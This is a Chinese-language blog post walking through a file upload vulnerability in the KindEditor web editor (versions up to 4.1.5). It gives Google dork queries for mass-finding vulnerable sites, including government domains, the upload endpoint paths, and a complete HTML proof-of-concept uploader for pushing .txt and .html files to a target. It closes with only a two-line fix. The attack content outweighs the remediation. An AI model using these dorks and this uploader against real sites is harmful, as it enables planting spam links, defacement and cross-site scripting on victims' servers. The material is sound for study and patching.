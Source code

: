 # kindeditor<=4.1.5上传漏洞     	

## 0x00 漏洞描述

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net,漏洞存在于小于等于kindeditor4.1.5编辑器中

这里html里面可以嵌套暗链接地址以及嵌套xss。Kindeditor上的uploadbutton.html用于文件上传功能页面，直接POST到/upload_json.*?dir=file，在允许上传的文件扩展名中包含htm,txt：extTable.Add("file","doc,docx,xls,xlsx,ppt,htm,html,txt,zip,rar,gz,bz2")

 

## 0x01 批量搜索

在google中批量搜索：

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
inurl:/examples/uploadbutton.html

inurl:/php/upload_json.php

inurl:/asp.net/upload_json.ashx

inurl://jsp/upload_json.jsp

inurl://asp/upload_json.asp

inurl:gov.cn/kindeditor/
```

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

 

 

## 0x02 漏洞问题

根本脚本语言自定义不同的上传地址，上传之前有必要验证文件 upload_json.* 的存在

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
/asp/upload_json.asp

/asp.net/upload_json.ashx

/jsp/upload_json.jsp

/php/upload_json.php
```

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

可目录变量查看是否存在那种脚本上传漏洞:

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
kindeditor/asp/upload_json.asp?dir=file

kindeditor/asp.net/upload_json.ashx?dir=file

kindeditor/jsp/upload_json.jsp?dir=file

kindeditor/php/upload_json.php?dir=file
```

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

## 0x03 漏洞利用

google搜素一些存在的站点 inurl：kindeditor

1.查看版本信息

http://www.xxx.org/kindeditor//kindeditor.js

![img](https://img2018.cnblogs.com/blog/1049983/201902/1049983-20190223002035491-1363270175.jpg)

 

2.版本是4.1.10可以进行尝试如下路径是否存在有必要验证文件 upload_json.* 

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
kindeditor/asp/upload_json.asp?dir=file

kindeditor/asp.net/upload_json.ashx?dir=file

kindeditor/jsp/upload_json.jsp?dir=file

kindeditor/php/upload_json.php?dir=file
```

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

3.如下图可以看出是存在jsp上传点:

http://www.xxx.org/kindeditor/jsp/upload_json.jsp?dir=file

![img](https://img2018.cnblogs.com/blog/1049983/201902/1049983-20190223002035961-1395176285.jpg)

 

 

4.写出下面的构造上传poc,这里需要修改<script>...<script>以及url : 的内容,根据实际情况修改.

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
<html><head>

 

<title>Uploader</title>

 

<script src="http://www.xxx.org/kindeditor//kindeditor.js"></script>

 

<script>

 

KindEditor.ready(function(K) {

 

var uploadbutton = K.uploadbutton({

 

button : K('#uploadButton')[0],

 

fieldName : 'imgFile',

 

url : 'http://www.xxx.org/kindeditor/jsp/upload_json.jsp?dir=file',

 

afterUpload : function(data) {

 

if (data.error === 0) {

 

var url = K.formatUrl(data.url, 'absolute');

 

K('#url').val(url);}

 

},

 

});

 

uploadbutton.fileBox.change(function(e) {

 

uploadbutton.submit();

 

});

 

});

 

</script></head><body>

 

<div class="upload">

 

<input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />

 

<input type="button" id="uploadButton" value="Upload" />

 

</div>

 

</body>

 

</html>
```

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

 

5.用浏览器打开,然后开启bupsuit进行拦截发送,可以看到成功上传txt文件

![img](https://img2018.cnblogs.com/blog/1049983/201902/1049983-20190223002036444-985275620.png)

 

![img](https://img2018.cnblogs.com/blog/1049983/201902/1049983-20190223002036934-341782767.jpg)

 

 

![img](https://img2018.cnblogs.com/blog/1049983/201902/1049983-20190223003244737-312707022.png)

 

6.同时也可以上传.html文件,这里就是攻击者最喜欢上传的文件(里面包含了各种暗页连接地址,如菠菜和其他色情站点链接地址)

 

![img](https://img2018.cnblogs.com/blog/1049983/201902/1049983-20190223002037695-739569212.jpg)

 

 

![img](https://img2018.cnblogs.com/blog/1049983/201902/1049983-20190223002038122-566333856.jpg)

 

## 0x04 漏洞修复

1.直接删除upload_json.*和file_manager_json.*

2.升级kindeditor到最新版本